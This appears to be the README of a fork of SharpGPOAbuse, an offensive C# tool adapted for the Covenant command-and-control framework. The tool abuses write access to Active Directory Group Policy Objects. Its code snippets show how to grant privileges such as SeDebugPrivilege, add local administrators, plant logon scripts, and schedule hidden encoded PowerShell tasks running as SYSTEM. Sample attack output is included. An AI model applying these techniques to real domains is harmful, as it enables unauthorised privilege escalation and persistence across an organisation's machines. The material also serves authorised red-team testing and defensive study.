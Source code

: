 # SharpGPOAbuse
SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.f-secure.com/tools/sharpgpoabuse](https://labs.f-secure.com/tools/sharpgpoabuse)

This fork provides some modifications for use with Covenant's Grunts.  The most notable changes are removing the `Environment.Exit()` calls that will kill a Grunt (since they do not create sacrificial processes for post-ex jobs); removing the dependency for CommandLineParser, and modifying `Main()` to hardcode an attack type and associated options.

## Compile Instructions ## 
SharpGPOAbuse has been built against .NET 3.5 and is compatible with Visual Studio 2017 & 2019. Simply open the solution file and build the project.

## Usage ##
Modify line `36` to define the attack type.
e.g. `StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");`

Modify the `const` strings (line `11` and onwards) to define the necessary options for the chosen attack type.

## Attacks Types ## 
Currently SharpGPOAbuse supports the following options:

| Option               | Description                               |
| ---------------------|-------------------------------------------|
| [AddUserRights](#adding-user-rights) | Add rights to a user                      |
| [AddLocalAdmin](#adding-a-local-admin)      | Add a user to the local admins group      |
| [AddComputerScript](#configuring-a-user-or-computer-logon-script)  | Add a new computer startup script         |
| [AddUserScript](#configuring-a-user-or-computer-logon-script)      | Configure a user logon script             |
| [AddComputerTask](#configuring-a-computer-or-user-immediate-task)    | Configure a computer immediate task       |
| [AddUserTask](#configuring-a-computer-or-user-immediate-task)        | Add an immediate task to a user           |

## Attack Options

### Adding User Rights 
```
string[] UserRights = { "", "" };
string UserAccount = "";
string GPOName = "";

UserRightAssignment.AddNewRights(DomainName, DomainController, GPOName, DistinguishedName, UserRights, UserAccount);
```

`UserRights` can be any of the following:

```
SeTrustedCredManAccessPrivilege, SeNetworkLogonRight, SeTcbPrivilege, SeMachineAccountPrivilege, SeIncreaseQuotaPrivilege, SeInteractiveLogonRight, SeRemoteInteractiveLogonRight, SeBackupPrivilege, SeChangeNotifyPrivilege, SeSystemtimePrivilege, SeTimeZonePrivilege, SeCreatePagefilePrivilege, SeCreateTokenPrivilege, SeCreateGlobalPrivilege, SeCreatePermanentPrivilege, SeCreateSymbolicLinkPrivilege, SeDebugPrivilege, SeDenyNetworkLogonRight, SeDenyBatchLogonRight, SeDenyServiceLogonRight, SeDenyInteractiveLogonRight, SeDenyRemoteInteractiveLogonRight, SeEnableDelegationPrivilege, SeRemoteShutdownPrivilege, SeAuditPrivilege, SeImpersonatePrivilege, SeIncreaseWorkingSetPrivilege, SeIncreaseBasePriorityPrivilege, SeLoadDriverPrivilege, SeLockMemoryPrivilege, SeBatchLogonRight, SeServiceLogonRight, SeSecurityPrivilege, SeRelabelPrivilege, SeSystemEnvironmentPrivilege, SeManageVolumePrivilege, SeProfileSingleProcessPrivilege, SeSystemProfilePrivilege, SeUndockPrivilege, SeAssignPrimaryTokenPrivilege, SeRestorePrivilege, SeShutdownPrivilege, SeSyncAgentPrivilege, SeTakeOwnershipPrivilege
```

### Adding a Local Admin 
```
string UserAccount = "";
string GPOName = "";

LocalAdmin.NewLocalAdmin(UserAccount, DomainName, DomainController, GPOName, DistinguishedName, false);
```

### Configuring a User or Computer Logon Script  
```
string ScriptName = "";
string ScriptContent = "";
string GPOName = "";

StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");
```

### Configuring a Computer or User Immediate Task  
```
string TaskName = "";
string Author = "NT AUTHORITY\\SYSTEM";
string Command = "powershell.exe";
string Arguments = "-Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

ScheduledTask.NewImmediateTask(DomainName, DomainController, GPOName, DistinguishedName, TaskName, Author, Arguments, Command, false, "Computer");
```

## Example Output
```
[+] Domain = prod.zeropointsecurity.local
[+] Domain Controller = tf-win-dc02.prod.zeropointsecurity.local
[+] Distinguished Name = CN=Policies,CN=System,DC=prod,DC=zeropointsecurity,DC=local
[+] GUID of Server Baseline is: {205F0E03-17C3-4E9B-925E-330FAD565CA1}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
```
